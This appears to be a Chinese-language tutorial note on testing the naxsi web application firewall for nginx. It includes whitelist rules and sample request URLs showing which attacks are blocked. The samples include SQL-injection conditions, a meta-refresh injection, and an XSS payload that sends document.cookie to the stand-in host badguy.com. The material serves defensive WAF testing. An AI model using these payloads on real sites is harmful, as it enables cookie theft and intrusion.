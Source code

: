请参考：[naxsi的规则](https://www.dazhuanlan.com/2020/01/15/5e1e7a0e6b6a6/)

## 参考文档

[naxsi 官方文档](https://github.com/nbs-system/naxsi/wiki/naxsi-compile)

[nginx 安装naxsi模块](https://blog.csdn.net/xujiamin0022016/article/details/95209717)

[nginx下安装配置naxsi waf防火墙（附完整编译、配置）](https://blog.csdn.net/qq_28710983/article/details/84554887)

[Nginx_Naxsi 实现简单的web防御](https://www.e-learn.cn/topic/3241369)





```bash
环境信息：
nginx         http://117.73.10.122:8200/index.html
modsecurity   http://117.73.10.122:8443/index.html
naxsi         http://117.73.10.122:8088/index.html

常见的攻击示例：
/index.html
/index.html?id=40//and//1=1
/index.html?name=40//and//1=1
/index.html?name=%28%29
/index.html?term=%3Cscript%3Ewindow.open%28%22http://badguy.com?cookie=%22+document.cookie%29%3C/script%3E
/index.html?title=meta%20http-equiv=%22refresh%22%20content=%220;%22
/index.html?param=%22%3E%3Cscript%3Ealert(1);%3C/script%3E
/index.html?a=<>

可分别向nginx、modsecurity、naxsi发送以下请求，验证是否被拦截住

```



naxsi_BasicRule.conf

```bash
BasicRule wl:0 "mz:$ARGS_VAR:script";
BasicRule wl:0 "mz:$ARGS_VAR:id";
```





测试链接：

```bash
http://10.142.138.61:8888/xss/                       #通过
http://10.142.138.61:8888/xss/?id=40/**/and/**/1=1   #通过，因为配置到白名单
http://10.142.138.61:8888/xss/?name=40/**/and/**/1=1 #不通过，含有条件注入

# http://10.142.138.61:8888/xss/?name=()
http://10.142.138.61:8888/xss/?name=%28%29      #不通过，特殊字符

# http://10.142.138.61:8888/xss/?term=window.open("http://badguy.com?cookie="+document.cookie)
http://10.142.138.61:8888/xss/?term=%3Cscript%3Ewindow.open%28%22http://badguy.com?cookie=%22+document.cookie%29%3C/script%3E #不通过，参数内容含脚本注入

# http://10.142.138.61:8888/xss/?title=meta http-equiv="refresh" content="0;"
http://10.142.138.61:8888/xss/?title=meta%20http-equiv=%22refresh%22%20content=%220;%22 #不通过
```

